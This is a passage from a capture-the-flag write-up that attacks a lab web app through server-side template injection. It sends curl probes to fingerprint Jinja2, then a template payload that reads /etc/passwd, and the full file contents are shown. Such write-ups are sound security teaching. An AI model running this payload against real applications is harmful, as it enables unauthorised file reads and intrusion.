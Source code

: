 I’ll grab my cookie, and move over to curl to test:

```

root@kali# curl -X POST --data "name=asd&desc={7*7}" http://10.10.10.96:8080/ -H "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IndpemFyZC5veiIsImV4cCI6MTU0NjY0Mzg5NX0.4_KeOJDJPbguN1bLZg8dbOmSr5f5L5IlpS6XixNsLSU"
Name: asd desc: {7*7}

root@kali# curl -X POST --data "name=asd&desc={{7*7}}" http://10.10.10.96:8080/ -H "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IndpemFyZC5veiIsImV4cCI6MTU0NjY0Mzg5NX0.4_KeOJDJPbguN1bLZg8dbOmSr5f5L5IlpS6XixNsLSU"
Name: asd desc: 49

root@kali# curl -X POST --data "name=asd&desc={{7*'7'}}" http://10.10.10.96:8080/ -H "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IndpemFyZC5veiIsImV4cCI6MTU0NjY0Mzg5NX0.4_KeOJDJPbguN1bLZg8dbOmSr5f5L5IlpS6XixNsLSU"
Name: asd desc: 7777777

```

Based on that testing, it’s working, and it’s likely Jinja2 (Twig would have returned 49 for the last test).

### Read File

Looking at the [Jinja2 section on PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections#jinja2), I’ll try to read a file:

```

root@kali# curl -X POST http://10.10.10.96:8080/ -H "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IndpemFyZC5veiIsImV4cCI6MTU0NjY1MTA1Mn0.YuW5qoU_-327dbMSnydFQ6q5wyFPw3PFlDHDOjuu2Mk" --data "name=name&desc={{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}"
Name: name desc: root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/bin/sh
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/spool/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
postgres:x:70:70::/var/lib/postgresql:/bin/sh
nut:x:84:84:nut:/var/state/nut:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin

```